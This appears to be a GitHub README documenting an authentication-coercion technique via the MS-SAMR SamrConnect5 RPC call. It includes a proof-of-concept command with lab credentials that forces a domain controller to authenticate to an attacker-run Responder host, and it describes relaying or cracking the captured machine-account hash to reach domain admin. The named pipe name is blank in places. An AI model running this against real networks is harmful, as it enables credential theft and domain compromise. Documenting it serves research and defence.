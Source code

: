 # MS-SAMR - Remote call to SamrConnect5 (opnum 64)

## Summary

 - **Protocol**: [[MS-SAMR]: Security Account Manager (SAM) Remote Protocol (Client-to-Server)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380)

 - **Protocol UUID**: 12345778-1234-abcd-ef00-0123456789ac

 - **Protocol version**: 1.0

 - **SMB Named pipe**: ``

 - **Function name**: [`SamrConnect5`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/c842a897-0a42-4ca5-a607-2afd05271dae)

 - **Function operation number**: `64`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-SAMR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380) protocol (with uuid `12345778-1234-abcd-ef00-0123456789ac` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-SAMR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-SAMR]: Security Account Manager (SAM) Remote Protocol (Client-to-Server)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380) and allows to call RPC functions of this protocol. We will then call the remote [`SamrConnect5`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/c842a897-0a42-4ca5-a607-2afd05271dae) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
SamrConnect5('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
long SamrConnect5(
   [in, unique, string] PSAMPR_SERVER_NAME ServerName,
   [in] unsigned long DesiredAccess,
   [in] unsigned long InVersion,
   [in] [switch_is(InVersion)] SAMPR_REVISION_INFO* InRevisionInfo,
   [out] unsigned long* OutVersion,
   [out, switch_is(*OutVersion)] SAMPR_REVISION_INFO* OutRevisionInfo,
   [out] SAMPR_HANDLE* ServerHandle
 );
```

## References

 - Documentation of protocol [MS-SAMR]: Security Account Manager (SAM) Remote Protocol (Client-to-Server): https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380

 - Documentation of function `SamrConnect5`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/c842a897-0a42-4ca5-a607-2afd05271dae